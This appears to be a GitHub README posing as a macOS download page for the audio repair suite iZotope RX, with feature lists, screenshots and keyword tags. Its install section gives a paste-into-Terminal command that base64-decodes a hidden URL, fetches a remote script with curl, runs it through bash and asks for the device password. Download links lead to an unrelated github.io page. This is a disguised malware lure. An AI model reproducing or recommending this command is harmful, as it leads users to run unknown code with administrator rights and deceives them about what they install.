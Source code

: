 # 🎙 iZotope RX — Industry-Leading Audio Repair Suite for macOS

**iZotope RX** is the world’s most trusted audio repair and restoration software for macOS. Designed for music producers, post-production engineers, and broadcasters, RX delivers powerful tools to fix, clean, and enhance any audio with surgical precision.

Whether you're restoring old recordings, cleaning dialogue, or removing noise from live performances, iZotope RX provides an unmatched set of features — fully optimized for macOS and Apple Silicon.

---

## ✅ Download iZotope RX for macOS  
[![Download iZotope RX](https://img.shields.io/badge/Download-iZotope_RX-blue)](https://shuziktobehuman.github.io/huja/iZotope)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is iZotope RX?

iZotope RX is an award-winning audio editor and repair toolkit offering intelligent noise reduction, spectral editing, de-clipping, voice de-noising, and more. Widely used in Hollywood post-production and professional studios, RX includes multiple editions (Elements, Standard, Advanced) and integrates seamlessly into macOS-based workflows with AU, VST, and AAX plug-in support.

---

## ✨ Features

- 🧽 **Spectral Repair** to visually remove clicks, pops, hums, and background noise  
- 🎚 **Voice De-noise** and **Dialogue Isolate** for clean vocals and interviews  
- 🔊 Advanced **De-click**, **De-crackle**, **De-hum**, and **De-clip** tools  
- 🎧 **Ambience Match** to fill in gaps or smooth edits  
- 🛠 Plug-in & standalone operation with full DAW integration  
- 🖥 Optimized for macOS Sonoma & Apple Silicon (M1/M2/M3)  
- 🔍 Multi-channel support and batch processing for large projects  
- 🎼 Music Rebalance to isolate or remove vocals, drums, bass, or other instruments  
- 🧠 AI-powered repair assistants for fast, intelligent results  
- 📁 Export stems for mixing, mastering, or remastering workflows  

---

## 💡 Why Use iZotope RX?

- 🎙 Trusted by professionals in film, music, and broadcast  
- 🧩 Complete audio repair suite in one package  
- 🖱 Precision control with intuitive spectral display  
- 🎧 Perfect for cleaning podcasts, voiceovers, live audio, and archival content  
- ⚡ Streamlined for both beginners and advanced engineers  
- 🖥 Seamless compatibility with Logic Pro, Pro Tools, Final Cut, and more  

---

[![Download iZotope RX](https://img.shields.io/badge/Download-iZotope_RX-blue)](https://shuziktobehuman.github.io/huja/iZotope)

---



## 🖼 Preview

![iZotope RX Screenshot 1](https://images.squarespace-cdn.com/content/v1/54d696e5e4b05ca7b54cff5c/f000ad0a-3e71-4de7-91e8-4540b525a307/iZotope+RX+10+Released+Hero.jpg)  
![iZotope RX Screenshot 2](https://i.ytimg.com/vi/IVE9BcXm3Vo/maxresdefault.jpg)

---

## 📌 Tags

izotope rx, izotope rx 10, izotope rx10, izotope rx9, rx elements, izotope rx8, izotope rx7,  
izotope rx elements, rx elements izotope, izotope rx 11, izotope rx11, izotoperx9,  
rx10 izotope, rx9 izotope, izotope rx 10 advanced, rx8 izotope, izotope rx advanced,  
izotope rx 10 standard, rx 10 standard, rx7 izotope, izotope rx 9 download,  
izotope rx standard, rx 10 advanced, izotope rx 8 download, izotope rx7 download,  
izotope rx 10 elements, rx 10 elements, izotope rx mac, izotope rx mac download

---
